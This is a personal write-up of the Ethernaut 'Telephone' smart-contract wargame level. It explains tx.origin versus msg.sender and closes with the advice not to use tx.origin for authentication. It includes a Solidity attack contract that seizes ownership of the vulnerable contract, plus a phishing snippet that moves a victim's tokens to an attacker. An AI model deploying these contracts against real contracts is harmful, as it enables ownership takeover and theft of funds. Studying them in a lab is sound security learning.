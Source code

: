 ```yaml
---
tags: 🥷
url: https://ethernaut.openzeppelin.com/level/0x0b6F6CE4BCfB70525A31454292017F640C10c768
topic: [[Blockchain]]
---
```


# 5. Telephone
- [diff between tx.origin & msg.sender](https://ethereum.stackexchange.com/questions/1891/whats-the-difference-between-msg-sender-and-tx-origin)
	- `msg.sender`
		- gives direct sender of the msg *(user wallet or another smart contract)*
		- checks where the external function call directly came from
	- `tx.origin`
		- original user wallet that initialized the tx
		- the origin addr of potentially an entire chain of txs & calls
		- `tx.origin` can be only user wallets, not contract ones

## Exploitation
- We can trick the `(tx.origin != msg.sender)` by spoofing `msg.sender`
	- `tx.origin` will be our user address *(i.e `owner` from `PhoneChain`)*
	- `msg.sender` will be the address of the attacking contract
	- thus bypassing the check
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    // change the owner based on tx.origin
    // we can spoof this
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}

contract PhoneChain {
  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function claimOwnership() payable public{
    Telephone(0x9F728A9a2B2c6AC2A008F828086DB24FF5e5fA9d).changeOwner(owner);
  }
}
```

## Takeaways
- confusing `tx.origin` with `msg.sender` can lead to phishing-style attacks, such as [this](https://blog.ethereum.org/2016/06/24/security-alert-smart-contract-wallets-created-in-frontier-are-vulnerable-to-phishing-attacks/)
	- use `tx.origin` to determine whose tokens to transfer
		```solidity
		function transfer(address _to, uint _value) {
			tokens[tx.origin] -= _value;
			tokens[_to] += _value;
		}
		```
	- attacker gets victim to send funds to a malicious contract that calls the transfer function of the token contract
		- `tx.origin`: victim addr while `msg.sender` is the malicious contract's addr
		- results in funds being transferred from the victim to the attacker
		```solidity
		function () payable {
			token.transfer(attackerAddr, 10000);
		}
		```
- don't use `tx.origin` for authentication purposes

## Refs
- [Contracts using tx.origin for auth are vulnerable](https://hackernoon.com/hacking-solidity-contracts-using-txorigin-for-authorization-are-vulnerable-to-phishing)
- [Phising with tx.origin](https://solidity-by-example.org/hacks/phishing-with-tx-origin/)

## See Also
[[Blockchain]]